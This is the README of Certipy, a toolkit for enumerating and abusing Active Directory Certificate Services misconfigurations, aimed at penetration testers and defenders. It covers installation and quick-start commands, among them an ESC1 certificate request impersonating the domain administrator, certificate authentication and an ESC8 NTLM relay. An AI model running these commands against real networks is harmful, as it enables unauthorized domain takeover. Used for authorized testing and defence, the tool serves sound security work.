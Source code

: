 # Certipy - AD CS Attack & Enumeration Toolkit

[![PyPI version](https://badge.fury.io/py/certipy-ad.svg)](https://badge.fury.io/py/certipy-ad)
![Python](https://img.shields.io/badge/python-3.12+-blue.svg)
![License](https://img.shields.io/github/license/ly4k/Certipy)

**Certipy** is a powerful offensive and defensive toolkit for enumerating and abusing Active Directory Certificate Services (AD CS). It helps red teamers, penetration testers, and defenders assess AD CS misconfigurations — including full support for identifying and exploiting all known **ESC1–ESC16** attack paths.

> [!WARNING]
> Use only in environments where you have explicit authorization. Unauthorized use may be illegal.

---

## 🔍 Features

- 🔎 Discover Enterprise Certificate Authorities and Templates
- 🚩 Identify misconfigurations (e.g., ESC1–ESC16)
- 🔐 Request and forge certificates
- 🎭 Perform authentication using certificates (PKINIT/Schannel)
- 📡 Relay NTLM authentication to AD CS HTTP/RPC endpoints
- 🧪 Support for Shadow Credentials, Golden Certificates, and Certificate Mapping Attacks

---

## 📚 Full Wiki & Documentation

Read the full **step-by-step usage guide**, including installation, vulnerability explanations, examples, and mitigations in the [📘 Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## ⚙️ Installation

Certipy supports **Python 3.12+** on both **Linux** and **Windows**. Linux is the primary supported platform, but core functionality works on Windows as well.

> [!TIP]
> **For Kali Linux Users**  
> Certipy is pre-installed in Kali under the command name `certipy-ad`.  
> The Kali package is **not maintained by the original author** and may **lag behind the latest version**.  
> For the latest features and fixes, install from PyPI manually using `pip`.

### 🐧 Linux (Debian/Ubuntu/Kali)

```bash
sudo apt update && sudo apt install -y python3 python3-venv python3-pip
python3 -m venv ~/certipy-env
source ~/certipy-env/bin/activate
pip install --upgrade pip
pip install certipy-ad
````

### 🪟 Windows (PowerShell)

```powershell
python -m venv certipy-env
certipy-env\Scripts\Activate.ps1
pip install --upgrade pip
pip install certipy-ad
```

Verify installation:

```bash
certipy -h
```

---

## 🚀 Quick Start

### Enumerate CAs and Templates

```bash
certipy find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.0.0.100
```

### Request a Certificate for Another User (ESC1-style)

```bash
certipy req -u 'user@domain.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -target 'CA.CORP.LOCAL' \
  -template 'ESC1' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-2328196741-663698128-2762965104-500' \
  -dc-ip 10.0.0.100
```

### Authenticate with a Certificate

```bash
certipy auth -pfx ./administrator.pfx -dc-ip 10.0.0.100
```

### NTLM Relay to AD CS Web Enrollment (ESC8)

```bash
certipy relay -ca http://ca.corp.local -template DomainController
```

---

## ✅ Supported ESC Vulnerabilities

Certipy provides comprehensive support for detecting and exploiting AD CS vulnerabilities **ESC1 – ESC16**

For detailed explanations, exploitation steps, and mitigation strategies, refer to the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## 📎 Related Tools & References

* 📘 [Certified Pre-Owned – SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* 🔭 [BloodHound PKI Attack Paths](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)
* 🛡️ [Microsoft AD CS Hardening Guide](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate)

---

## 🛡️ Disclaimer

This tool is designed exclusively for use in **authorized penetration testing**, **red teaming**, **security assessments**, and **security research**. **Do not use** in environments where you do not have **explicit written permission**. Unauthorized use may violate laws and ethical standards.

---

## 🤝 Contributing

Contributions are welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on reporting issues, improving documentation, or submitting pull requests.

---

## 🌟 Sponsors

Thanks to these generous sponsors for supporting the development of this project. Your contributions help sustain ongoing work and improvements.

<!-- sponsors --><a href="https://github.com/fgeek"><img src="https:&#x2F;&#x2F;github.com&#x2F;fgeek.png" width="60px" alt="User avatar: Henri Salo" /></a><a href="https://github.com/mxrch"><img src="https:&#x2F;&#x2F;github.com&#x2F;mxrch.png" width="60px" alt="User avatar: mxrch" /></a><!-- sponsors -->

---

## 👤 Author

Developed by [@ly4k](https://github.com/ly4k), with valuable contributions from the community.

---

## 📘 Wiki

📖 Visit the [**Certipy Wiki**](https://github.com/ly4k/Certipy/wiki) for detailed documentation, usage examples, ESC vulnerability breakdowns, and mitigation advice.
